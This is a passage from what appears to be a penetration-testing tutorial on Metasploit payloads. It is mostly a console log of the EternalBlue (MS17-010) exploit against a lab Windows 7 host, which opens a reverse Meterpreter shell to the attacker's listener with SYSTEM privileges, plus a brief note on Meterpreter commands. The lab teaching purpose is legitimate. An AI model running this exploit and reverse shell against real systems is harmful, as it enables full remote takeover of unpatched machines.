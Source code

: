 &#x20; Payloads

```shell-session
msf6 exploit(windows/smb/ms17_010_eternalblue) > run

[*] Started reverse TCP handler on 10.10.14.15:4444 
[*] 10.10.10.40:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.10.40:445       - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.10.40:445       - Scanned 1 of 1 hosts (100% complete)
[*] 10.10.10.40:445 - Connecting to target for exploitation.
[+] 10.10.10.40:445 - Connection established for exploitation.
[+] 10.10.10.40:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.10.10.40:445 - CORE raw buffer dump (42 bytes)
[*] 10.10.10.40:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
[*] 10.10.10.40:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv
[*] 10.10.10.40:445 - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1      
[+] 10.10.10.40:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.10.10.40:445 - Trying exploit with 12 Groom Allocations.
[*] 10.10.10.40:445 - Sending all but last fragment of exploit packet
[*] 10.10.10.40:445 - Starting non-paged pool grooming
[+] 10.10.10.40:445 - Sending SMBv2 buffers
[+] 10.10.10.40:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.10.10.40:445 - Sending final SMBv2 buffers.
[*] 10.10.10.40:445 - Sending last fragment of exploit packet!
[*] 10.10.10.40:445 - Receiving response from exploit packet
[+] 10.10.10.40:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.10.10.40:445 - Sending egg to corrupted connection.
[*] 10.10.10.40:445 - Triggering free of corrupted buffer.
[*] Sending stage (201283 bytes) to 10.10.10.40
[*] Meterpreter session 1 opened (10.10.14.15:4444 -> 10.10.10.40:49158) at 2020-08-14 11:25:32 +0000
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=


meterpreter > whoami

[-] Unknown command: whoami.


meterpreter > getuid

Server username: NT AUTHORITY\SYSTEM
```

The prompt is not a Windows command-line one but a `Meterpreter` prompt. The `whoami` command, typically used for Windows, does not work here. Instead, we can use the Linux equivalent of `getuid`. Exploring the `help` menu gives us further insight into what Meterpreter payloads are capable of.

**MSF - Meterpreter Commands**
